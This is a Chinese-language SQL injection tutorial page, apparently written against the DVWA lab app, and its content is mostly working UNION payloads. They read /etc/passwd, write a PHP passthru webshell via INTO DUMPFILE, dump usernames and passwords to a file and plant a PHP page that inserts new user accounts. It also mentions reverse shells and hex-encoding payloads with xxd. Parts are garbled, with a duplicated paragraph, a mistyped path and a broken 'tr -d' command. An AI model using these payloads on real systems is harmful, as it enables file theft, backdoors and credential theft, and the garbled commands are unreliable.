

# SQL手工注入(二)

## 1.读取文件[load_file函数]

```
' union Select null,load_file('/etc/passwd')--+
```


**使用Burpsuite注入:**


---

## 2.写入文件

```
' union Select null,"<?php passthru($_GET['cmd']);?>" INTO DUMPFILE "/var/www/a.php"--+    [写入一句话木马;INTO DUMPING:mysql函数,将输入下载在数据库]
```



*提示:* 此语句往往会提示无法写入,因为缺少权限[以运行MySQL的账号为己身获取的权限]

```
' union Select null,"<?php passthru($_GET['cmd']);?>" INTO DUMPFILE 'a.php'--+  [将其写入默认路径(使用单引号):`/var/lib/mysql/dvwa/a.php`(dvwa的账号)]
```


*提示:* 当无权限进行指定目录写入文件时,可使用文件包含漏洞

- 首先,往通用目录`/tmp`中写入,然后结合文件包含漏洞

```
' union Select null,"<?php passthru($_GET['cmd']);?>" INTO DUMPFILE "/tem/a.php"--+
```


**也可上传反弹shell**

*注:* 当网页木马URL注入编译成二进制文件,数据库会使用INTO DUMPFILE将其转化成PHP代码存储

复制反弹木马:


当上传webshell无法实现目的操作，可编写服务器端代码，为己所用

#对目标有足够了解，数据库结构，表结构，程序设计逻辑方法当上传webshell无法实现目的操作，可编写服务器端代码，为己所用

#对目标有足够了解，数据库结构，表结构，程序设计逻辑方法修改反弹shellIP:


#### 编码

```
cat b.php | xxd -ps  [xxd:Linux集成,16进制编辑查看器;-ps:显示编码后的内容]
```

*提示:* 十六进制存在换行符,需要整理,再加一层管道

```
cat b.php | xxd -ps | tr -d '\d'  [tr -d:删除]
```

---


 ### 3.保存下载数

```
' union SELECT null,concat(user,0x3a,password) from users INTO OUTFILE '/tmp/a.db'--+
```

**若没有文件包含之类的漏洞可以下载拖库文件,则通过限定查询数目,一步一步复制黏贴进行数据窃取**

**当上传webshell无法实现目的操作，可编写服务器端代码，为己所用**

**对目标有足够了解，数据库结构，表结构，程序设计逻辑方法**


```
' union select null,'<?php if(isset($_POST["submit"])) { $userID = $_POST["userID"]; $first_name
= $_POST["first_name"]; $last_name = $_POST["last_name"]; $username =
$_POST["username"]; $avatar = $_POST["avatar"]; echo "userID: $userID<BR>"; echo
"first_name: $first_name<BR>"; echo "last_name: $last_name<BR>"; echo "username:
$username<BR>"; echo "avatar: $avatar<BR>";
$con=mysqli_connect("127.0.0.1","root","","dvwa"); if (mysqli_connect_errno()) { echo
"Failed to connect to MySQL: " . mysqli_connect_error(); } else { echo "Connected to
database<BR>"; } $password = "123"; $sql="insert into dvwa.users values (\\"$userID\\",\
\"$first_name\\",\\"$last_name\\",\\"$username\\",MD5(\\"$password\\"),\\"$avatar\
\")"; if (mysqli_query($con,$sql)) { echo "[Successful Insertion]: $sql"; } else { echo "Error
creating database: " . mysqli_error($con); } mysqli_close($con); } ?> <form method="post"
action="<?php echo $_SERVER["PHP_SELF"]; ?>"> <input type="text" name="userID"
value="33"><br> <input type="text" name="first_name" value="fh"><br> <input type="text"
name="last_name" value="y"><br> <input type="text" name="username" value="yfh"><br>
<input type="text" name="avatar" value="yfh!"><br> <input type="submit" name="submit"
value="Submit Form"><br> </form>' INTO DUMPFILE '/tmp/user.php' --
```


